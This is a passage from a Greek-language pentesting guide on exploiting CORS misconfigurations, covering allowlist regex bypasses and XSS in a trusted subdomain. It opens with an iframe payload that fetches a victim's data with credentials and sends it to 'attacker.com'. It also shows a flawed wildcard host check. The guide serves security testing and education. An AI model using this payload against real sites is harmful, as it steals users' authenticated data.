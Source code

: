 ```html
<iframe
sandbox="allow-scripts allow-top-navigation allow-forms"
srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
### Τεχνικές Παράκαμψης Κανονικών Εκφράσεων

Όταν συναντάτε μια λίστα επιτρεπόμενων τομέων, είναι κρίσιμο να δοκιμάσετε ευκαιρίες παράκαμψης, όπως η προσθήκη του τομέα του επιτιθέμενου σε έναν επιτρεπόμενο τομέα ή η εκμετάλλευση ευπαθειών κατάληψης υποτομέων. Επιπλέον, οι κανονικές εκφράσεις που χρησιμοποιούνται για την επικύρωση τομέων μπορεί να παραβλέπουν τις λεπτομέρειες στις συμβάσεις ονοματοδοσίας τομέων, προσφέροντας περαιτέρω ευκαιρίες παράκαμψης.

### Προχωρημένες Παράκαμψεις Κανονικών Εκφράσεων

Τα μοτίβα Regex συνήθως επικεντρώνονται σε αλφαριθμητικούς χαρακτήρες, τελείες (.) και παύλες (-), παραβλέποντας άλλες δυνατότητες. Για παράδειγμα, ένα όνομα τομέα που έχει σχεδιαστεί για να περιλαμβάνει χαρακτήρες που ερμηνεύονται διαφορετικά από τους περιηγητές και τα μοτίβα regex μπορεί να παρακάμψει τους ελέγχους ασφαλείας. Η διαχείριση των χαρακτήρων υπογράμμισης από τους Safari, Chrome και Firefox σε υποτομείς δείχνει πώς τέτοιες διαφορές μπορούν να εκμεταλλευτούν για να παρακάμψουν τη λογική επικύρωσης τομέα.

**Για περισσότερες πληροφορίες και ρυθμίσεις αυτού του ελέγχου παράκαμψης:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **και** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)

![https://miro.medium.com/v2/resize:fit:720/format:webp/1*rolEK39-DDxeBgSq6KLKAA.png](<../images/image (284).png>)

### Από XSS μέσα σε έναν υποτομέα

Οι προγραμματιστές συχνά εφαρμόζουν αμυντικούς μηχανισμούς για να προστατευτούν από την εκμετάλλευση CORS, επιτρέποντας μόνο σε επιτρεπόμενους τομείς να ζητούν πληροφορίες. Παρά αυτές τις προφυλάξεις, η ασφάλεια του συστήματος δεν είναι αλάνθαστη. Η παρουσία ακόμη και ενός μόνο ευάλωτου υποτομέα μέσα στους επιτρεπόμενους τομείς μπορεί να ανοίξει την πόρτα για εκμετάλλευση CORS μέσω άλλων ευπαθειών, όπως το XSS (Cross-Site Scripting).

Για να το απεικονίσουμε, εξετάστε το σενάριο όπου ένας τομέας, `requester.com`, είναι επιτρεπόμενος να έχει πρόσβαση σε πόρους από έναν άλλο τομέα, `provider.com`. Η διαμόρφωση στην πλευρά του διακομιστή μπορεί να φαίνεται κάπως έτσι:
```javascript
if ($_SERVER["HTTP_HOST"] == "*.requester.com") {
// Access data
} else {
// Unauthorized access
}
```
Σε αυτή τη ρύθμιση, όλα τα υποτομείς του `requester.com` επιτρέπεται να έχουν πρόσβαση. Ωστόσο, αν ένας υποτομέας, ας πούμε `sub.requester.com`, έχει παραβιαστεί με μια ευπάθεια XSS, ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτή την αδυναμία. Για παράδειγμα, ένας επιτιθέμενος με πρόσβαση στο `sub.requester.com` θα μπορούσε να εκμεταλλευτεί την ευπάθεια XSS για να παρακάμψει τις πολιτικές CORS και να αποκτήσει κακόβουλη πρόσβαση σε πόρους στο `provider.com`.

